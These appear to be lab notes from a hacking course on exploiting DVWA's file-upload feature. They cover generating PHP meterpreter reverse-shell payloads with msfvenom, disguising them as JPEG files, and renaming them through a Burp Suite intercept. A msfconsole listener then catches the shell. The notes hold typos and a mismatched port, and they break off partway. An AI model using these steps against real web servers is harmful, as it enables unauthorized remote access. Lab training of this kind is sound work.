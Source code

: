 	Firefox
	Open http://10.10.1.22:8080/dvwa/hackable/uploads/upload.php
	
	Terminal - Meterpreter session has successfully been established with the victim system
	sysinfo
	--------------------------------------
	[parrot]
	sudo su
	cd
	msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.1.13 LPORT=3333 -f raw  -> copy the raw content
	cd /home/attacker/Desktop
	pluma medium.php.jpeg
	paste the raw content and save
	
	Firefox
	http://10.10.1.22:8080/dvwa/login.php
	admin/password
	Change security from Impossible to Medium
	File Upload - select medium file and upload it - b4 Clicking Upload setup Burpproxy - Set proxy first
	Open BurpSuite - Interceptor is On
	
	Click Upload button 
	Change teh filename from medium.php.jpg to medium.php + click forward + Interceptor off
	Remove proxy
	
	Terminal
	sudo su
	cd
	msfconsole
	use exploit/multi/handler -> setting up listener
	set payload php/meterpreter/reverse_tcp
	set LHOST 10.10.1.13
	set LPORT 333
	run
	
	Firefox: http://10.10.1.22:8080/dvwa/hackable/uploads/medium.php
	
	Terminal - Meterpreter session has successfully been established with the victim system
	sysinfo
	--------------------------------------
	[parrot]
	sudo su
	cd
	msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.1.13 LPORT=2222 -f raw  -> copy the raw content
	cd /home/attacker/Desktop
	pluma high.jpeg
	paste the raw content and save
	
	Firefox
	http://10.10.1.22:8080/dvwa/login.php
	admin/password
	Change security from Impossible to High
	File Upload - select high.jpeg file and upload it, note down the location of the uploaded file
	